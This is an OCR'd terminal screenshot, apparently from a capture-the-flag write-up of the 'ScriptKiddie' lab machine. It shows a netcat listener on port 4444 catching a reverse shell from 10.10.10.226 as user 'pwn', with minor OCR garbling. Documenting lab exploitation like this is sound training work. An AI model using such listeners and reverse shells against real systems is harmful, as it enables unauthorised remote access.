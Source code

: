 ![](Maszyny/Linux/Scriptkiddie/Pasted%20image%2020210831183329.png)

-(kali kali)-[-]
[s
rlwrap nc - vnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on ::: 4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.226.
Ncat: Connection from 10.10.10.226:54142.
bash: cannot set terminal process group (867): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ |
